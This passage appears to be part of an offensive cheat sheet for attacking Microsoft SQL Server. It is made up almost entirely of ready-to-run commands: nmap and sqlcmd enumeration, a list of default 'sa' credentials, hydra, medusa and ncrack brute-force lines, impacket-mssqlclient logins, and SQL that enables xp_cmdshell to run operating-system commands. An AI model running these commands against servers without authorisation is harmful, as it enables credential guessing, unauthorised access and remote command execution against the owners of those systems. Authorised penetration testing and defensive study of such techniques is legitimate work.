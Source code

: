 ### Version Information
```bash
# Nmap script
nmap --script ms-sql-info target

# Manual query
sqlcmd -S target -Q "SELECT @@version"
```

## Authentication

### Default Credentials
```
Common defaults:
- sa / (blank)
- sa / sa
- sa / password
- MSSQL / password
- sql / password
```

### Password Attacks
```bash
# Hydra
hydra -l sa -P passwords.txt mssql://target
hydra -L users.txt -P passwords.txt mssql://target

# Medusa
medusa -h target -u sa -P passwords.txt -M mssql

# Ncrack
ncrack -p 1433 --user sa -P passwords.txt target
```

### Windows Authentication
```bash
# Using domain credentials
sqlcmd -S target -E
sqlcmd -S target -U domain\user -P password

# Impacket
impacket-mssqlclient domain/user:password@target
impacket-mssqlclient domain/user:password@target -windows-auth
```

## Exploitation

### Command Execution

#### xp_cmdshell
```sql
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'dir C:\';
EXEC xp_cmdshell 'net user';

```